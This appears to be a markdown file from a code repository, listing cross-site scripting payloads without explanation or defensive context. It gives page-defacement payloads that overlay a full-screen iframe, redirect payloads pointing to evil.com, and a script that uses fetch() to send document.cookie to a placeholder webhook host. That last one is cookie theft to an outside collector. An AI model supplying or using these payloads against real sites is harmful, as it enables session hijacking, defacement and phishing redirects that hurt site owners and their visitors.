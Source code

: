 # XSS Payloads
List of XSS payloads

## XSS Defacement Payloads

### XSS Script Payload
```
<script>document.documentElement.innerHTML="<html><iframe src='https://example.com' style='visibility: visible; border: 0; position: fixed; top: 0; right: 0; left: 0; bottom: 0; width: 100%; height: 100%;'></iframe></html>";</script>
```
### XSS Div Payload
```
<div onload="<script>document.documentElement.innerHTML="<html><iframe src='https://example.com' style='visibility: visible; border: 0; position: fixed; top: 0; right: 0; left: 0; bottom: 0; width: 100%; height: 100%;'></iframe></html>";</script>"></div>
```
### XSS Iframe Payload
```
<iframe src="https://example.com" style="border: 0; position: fixed; top: 0; right: 0; left: 0; bottom: 0; width: 100%; height: 100%;"></iframe>
```
### XSS SVG Payload
```
<svg width="100%" height="100%" style="position: fixed; top: 0; right: 0; bottom: 0; left: 0;"> <foreignObject width="100%" height="100%"> <body xmlns="http://www.w3.org/1999/xhtml"> <iframe src="https://example.com" style="border: 0; width: 100%; height: 100%;"></iframe> </body> </foreignObject> </svg>
```

## Reflected XSS Exploitation Payloads
```
<script> fetch('WEBHOOK.SITE URL HERE', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>
```

```
<script>alert("XSS");</script>
```

```
<script>window.location.replace("https://example.com");</script>
```

```
<meta http-equiv="refresh" content="0;url=http://evil.com">
```
